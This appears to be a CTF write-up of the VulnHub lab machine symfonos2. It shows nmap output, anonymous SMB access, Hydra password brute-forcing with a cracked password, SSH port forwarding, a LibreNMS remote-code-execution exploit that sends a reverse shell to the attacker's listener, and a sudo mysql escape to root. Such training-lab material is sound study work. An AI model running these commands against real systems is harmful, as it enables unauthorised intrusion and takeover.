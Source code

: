 ```yaml
---
title: symfonos2
author: vulnhub
date: 2021-04-15 02:05:08 +05:30
categories: [vulnhub , oscpLike]
tags: [SSH BruteForce,SSH PortForwording]
---
```





# Nmap

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:5f:87:20:e5:8c:fa:68:47:7d:71:62:08:ad:b9 (RSA)
|   256 04:2a:bb:06:56:ea:d1:93:1c:d2:78:0a:00:46:9d:85 (ECDSA)
|_  256 28:ad:ac:dc:7e:2a:1c:f6:4c:6b:47:f2:d6:22:5b:52 (ED25519)
80/tcp  open  http        WebFS httpd 1.21

rabbit hole
|_http-server-header: webfs/1.21
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:59:3C:A4 (Oracle VirtualBox virtual NIC)
Service Info: Host: SYMFONOS2; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
`rabbitHole`

![]({{site.baseurl}}/assets/img/vulnhub/symfonos2/rabbithole.png){: .normal}  

```
Host script results:
|_clock-skew: mean: 1h39m49s, deviation: 2h53m12s, median: -10s
|_nbstat: NetBIOS name: SYMFONOS2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos2
|   NetBIOS computer name: SYMFONOS2/x00
|   Domain name: /x00
|   FQDN: symfonos2
|_  System time: 2021-04-13T02:49:58-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-13T07:49:59
|_  start_date: N/A

```

# Enumeration
<h4>Smb Enumeration</h4>
![]({{site.baseurl}}/assets/img/vulnhub/symfonos2/smbclient.png){: .normal}
>smbclient -U"anonymous%anonymous" //10.0.2.48/anonymous

you can find the log.txt inside `/backup Directory`

![]({{site.baseurl}}/assets/img/vulnhub/symfonos2/backup_log.png){: .normal}

<h4>SSH Bruteforcing</h4> 

>Hydra -l aeolus -P ~/rockyou.txt ftp://10.0.2.48

![]({{site.baseurl}}/assets/img/vulnhub/symfonos2/sshBruteforce.png){: .normal}

Found Password 

`aeolus:sergioteamo`

# PrivilageEsclation

<h4>PortForwording</h4>
![]({{site.baseurl}}/assets/img/vulnhub/symfonos2/openports.png){: .normal}

you can find the port 8080 is running on serverLocalHost ,so to enumerate the port you need to [**PortForword**](https://linuxize.com/post/how-to-setup-ssh-tunneling/) to your local machine via ssh 

> ssh -L 3333:127.0.0.1:8080 aeolus@10.0.2.48

After accessing the web server on localhost:8080 through our browser, we can see, that `librenms is running. Using searchsploit reveals, that this application is vulnerable to remote code execution`, which comes really handy! We log in to the web application by providing the same credentials used for ssh. Downloading the exploit, it requires our cookies, listener ip and port to run. We setup our netcat listener and fire up the exploit:


```
 python 47044.py http://localhost:3333 "librenms_session=eyJpdiI6InZ1U3U3eTM4NTU2TFdDaTJBdmVjZWc9PSIsInZhbHVlIjoiWjBDVm9CcmlDQVEyUFF0UGpYODBhTE11RDg4TUM2VWtcL2NwMHhVZit3UDlVN0JcLzdHOWFVajZ2TFpcL1l6TCt1NGlwOVhjdVo3cjBPN0w5UHNBM2d0YkE9PSIsIm1hYyI6ImQ0NWE3ZWQ5M2EyNzA1NDZjODg5ZmQzN2JkMDQxNzQ1NWEzNGNjMjY2OWZiN2JkNDBkOGNkM2UyZjEyNjhmODUifQ==; XSRF-TOKEN=eyJpdiI6IjEyZm1ZWlo2dU9MVDJaTmpPZnhYTEE9PSIsInZhbHVlIjoiaG1za3VnZ1JVdk05UFwvUXNTUFF2TUlLVDRpelRmV0prMkU2N3QreWt1NjdaODNjY0pWRUJXTWQ3S3JcL2JtWnYyclpMMWJPY0hOOXY4RW9aaHk4UGU3Zz09IiwibWFjIjoiYjRhNTU0MjYwMzM1OWRjZTQ1MDU1ZGU1NDMwY2E1MDk5N2EzNmYzMTk5NGM5YWY5MTczMzAxMmY3NGQzY2RjNyJ9; PHPSESSID=ern5j06g3mth2e6jn5b1sre5t3" 10.0.2.48 80
```

got the shell

now by `sudo -l` command got to know the sql can be executed with root privilage without password

> command :  sudo mysql -e "/! /bin/bash"


 ```
$ sudo -l
Matching Defaults entries for cronus on symfonos2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin/:/usr/local/bin/:/usr/sbin/:/usr/bin/:/sbin/:/bin
User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql
$ sudo mysql -e "/! /bin/bash"
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/proof.txt
    Congrats on rooting symfonos:2!

           ,   ,
         ,-`{-`/
      ,-~ , / {-~~-,
    ,~  ,   ,`,-~~-,`,
  ,`   ,   { {      } }                                             }/
 ;     ,--/`/ /    / /                                     }/      /,/
;  ,-./      / /  { {  (                                  /,;    ,/ ,/
; /   `       } } `, `-`-.___                            / `,  ,/  `,/
 /|         ,`,`    `~.___,---}                         / ,`,,/  ,`,;
  `        { {                                     __  /  ,`/   ,`,;
        /   / /                                 _,`, `{  `,{   `,`;`
       {     } }       /~/         .-:::-.     (--,   ;/ `,}  `,`;
       //._./ /      /` , /      ,:::::::::,     `~;   /},/  `,`;     ,-=-
        `-..-`      /. `  ./_   ;:::::::::::;  __,{     `/  `,`;     {
                   / , ~ . ^ `~`/:::::::::::<<~>-,,`,    `-,  ``,_    }
                /~~ . `  . ~  , .`~~/:::::::;    _-~  ;__,        `,-`
       /`/    /~,  . ~ , '  `  ,  .` /::::;`   <<<~```   ``-,,__   ;
      /` .`/ /` .  ^  ,  ~  ,  . ` . ~/~                       //, `,__
     / ` , ,`/.  ` ~  ,  ^ ,  `  ~ . . ``~~~`,                   `-`--, /
    / , ~ . ~ / , ` .  ^  `  , . ^   .   , ` .`-,___,---,__            ``
  /` ` . ~ . ` `/ `  ~  ,  .  ,  `  ,  . ~  ^  ,  .  ~  , .`~---,___
/` . `  ,  . ~ , /  `  ~  ,  .  ^  ,  ~  .  `  ,  ~  .  ^  ,  ~  .  `-,

```




